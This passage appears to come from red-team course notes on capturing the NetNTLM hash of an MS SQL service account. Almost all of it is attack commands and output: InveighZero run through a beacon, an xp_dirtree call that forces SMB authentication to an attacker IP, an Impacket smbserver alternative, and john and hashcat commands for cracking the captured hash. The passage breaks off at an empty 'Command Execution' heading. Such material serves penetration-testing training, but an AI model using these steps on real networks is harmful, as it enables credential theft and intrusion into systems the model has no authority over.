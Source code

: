 
### NetNTLM Capture

^06fa80

The **xp_dirtree** procedure can be used to capture the NetNTLM hash of the principal being used to run the MS SQL Service. We can use [InveighZero](https://github.com/Kevin-Robertson/InveighZero) to listen to the incoming requests (this should be run as a local admin).

```
beacon> execute-assembly C:\Tools\InveighZero\Inveigh\bin\Debug\Inveigh.exe -DNS N -LLMNR N -LLMNRv6 N -HTTP N -FileOutput N

[*] Inveigh 0.913 started at 2021-03-10T18:02:36
[+] Elevated Privilege Mode = Enabled
[+] Primary IP Address = 10.10.17.231
[+] Spoofer IP Address = 10.10.17.231
```

Now execute `EXEC xp_dirtree '\\10.10.17.231\pwn', 1, 1` on the MS SQL server, where `10.10.17.231` is the IP address of the machine running InveighZero.

```
[+] [2021-05-14T15:33:49] TCP(445) SYN packet from 10.10.17.25:50323
[+] [2021-05-14T15:33:49] SMB(445) negotiation request detected from 10.10.17.25:50323
[+] [2021-05-14T15:33:49] SMB(445) NTLM challenge 3006547FFC8E90D8 sent to 10.10.17.25:50323
[+] [2021-05-14T15:33:49] SMB(445) NTLMv2 captured for DEV\svc_mssql from 10.10.17.25(SRV-1):50323:
svc_mssql::DEV:[...snip...]
```

Use `--format=netntlmv2 --wordlist=wordlist svc_mssql-netntlmv2` with **john** or `-a 0 -m 5600 svc_mssql-netntlmv2 wordlist` with **hashcat** to crack.

You may also use the WinDivert + rportfwd combo with Impacket's [smbserver.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py) to capture the NetNTLM hashes.

```
root@kali:~# python3 /usr/local/bin/smbserver.py -smb2support pwn .
Impacket v0.9.24.dev1+20210720.100427.cd4fe47c - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
[*] Incoming connection (127.0.0.1,46894)
[-] Unsupported MechType 'MS KRB5 - Microsoft Kerberos 5'
[*] AUTHENTICATE_MESSAGE (DEV\svc_mssql,SRV-1)
[*] User SRV-1\svc_mssql authenticated successfully
[*] svc_mssql::DEV:[...snip...]
[*] Connecting Share(1:pwn)
```


### Command Execution
